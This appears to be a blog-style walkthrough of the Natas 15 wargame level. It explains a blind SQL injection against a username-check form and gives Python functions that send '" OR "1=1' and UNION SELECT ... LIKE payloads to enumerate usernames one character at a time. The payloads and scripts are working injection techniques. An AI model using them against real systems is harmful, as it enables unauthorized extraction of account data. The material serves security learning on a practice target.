





# Natas 15 walkthrough
As always, we first introduce our credentials, and the first thing we see is this:


We see a form, that ask us to introduce an username, and then when we click the check existence button to send the post request. Lets try to introduce a random name, like "username".



We get redirected to the following page 



An as a result, the we see the text "This user doesn't exist.", this will be useful later in the script. 
So from what we have gathered by now, we can guess that if we put an username that exists, maybe the text that appears will be different.

Still we don't have much information, so we will see the source code.

 

And looking at it, we see two important things, someone left the schema of the database in a comment, and we see that they are using a query. And another thing that is useful that we have a debug variable that we can add in the request, so we can see the query generated. 

To solve this problem, we can divide it the following parts: Code injection, finding the usernames, finding the password.

## Code Injection

For me at least, this was the part that took more time, because to create the query, I had to use my imagination and creativity. And also have to find a way to confirm that I can inject code.

### Confirming the code injection
To see if it's possible to inject code into this form, I created this function to help me (Before you look at it, you could try it for yourself!).
```python
#Function to see if we can inject code
def test_code_injection():
    payload = {'debug':'True','username': "\" OR \"1=1" }
    r= session.post(url,auth=(username, password),data=payload)
    print(f"this is the content {r.content}")
    if b"This user exist" in r.content:
        print(f"look we injected code!")
```
I set the debug variable to true, because it's helpful, and used an old friend (" OR "1=1) to verify if it's possible to inject code, and also left a print of the content, because when I was trying to write our old friend, I've made a lot of syntaxs errors, so it did not worked out at the first try hahaha. And it finally worked as you can see in this output.



### Creating the query

If we thing about the restrictions of the problem, we can see that we can not know the specifics values of the columns in the database, so the first question is, **how can we guess them?** And so while I was thinking on this, I did a little research on how to do queries, and found something very useful, and it is the LIKE keyword and using it with the % operator, we can do brute force to guess how does the values stored in the database are written. And also needed to use the JOIN keyword, so we can use the things mentioned before. And why we have to guess it? Because of the information that the page is giving us, we can only know when we are on the right track by seeing the content displayed in the page that says "This user exists."
So finally, the injected code will look like this:

<span style="color: #FF5F0F;">" UNION SELECT * from users WHERE username LIKE "<random_char>%</span>

I used the UNION keyword, because that's the way I found that I can be guessing the values stored in the database and felt more comfortable, maybe there is another way.

## Finding the usernames
We need to find first the usernames, because in this way, when we want to obtain the password of any username, we can shorten the guess for the password. So we are going to use injection created before in order to guess with which character does all the usernames start with, why? Because the brute force will be shorten, and we don't have to try all the possible combinations of characters. And also, after we find the firsts characters of every username, we have to know their full name.
```python
#This function find the first initial character of the usernames stored in the database
def get_start_char(characters):
    start_char = []
    for char in characters:
        print(f"trying with {char}")
        payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+char+"%" }
        r= session.post(url,auth=(username, password),data=payload)
        if b"This user exist" in r.content:
            print(f"we found the following character {char}")
            start_char.append(char)
    return start_char
              
#Function to obtain the usernames stored in the database
def obtain_usernames(username,password,session,url):
    characters = 'qwertyuiopñlkjhgfdsazxcvbnm1234567890QWERTYUIOPÑLKJHGFDSAZXCVBNM*?!#$&/()='
    contador = 0
    #['ñ','a', 'c', 'b', 'n', 'Ñ', 'A', 'C', 'B', 'N']
    start_users = get_start_char(characters)
    full_name = []
    for user_to_find in start_users:
        while True:
            if contador == len(characters)-1:
                full_name.append(user_to_find)
                contador=0
                break
            print(f"trying with {user_to_find}{characters[contador]}")
            test = user_to_find+ characters[contador]
            payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+test+"%" }
            r= session.post(url,auth=(username, password),data=payload)
            if b"This user exist" in r.content:
                print(f"We've got a match with {characters[contador]}")
                user_to_find +=characters[contador]
                contador=0
            contador+=1
    print(f"The users are \n: {full_name}")
    return full_name
```


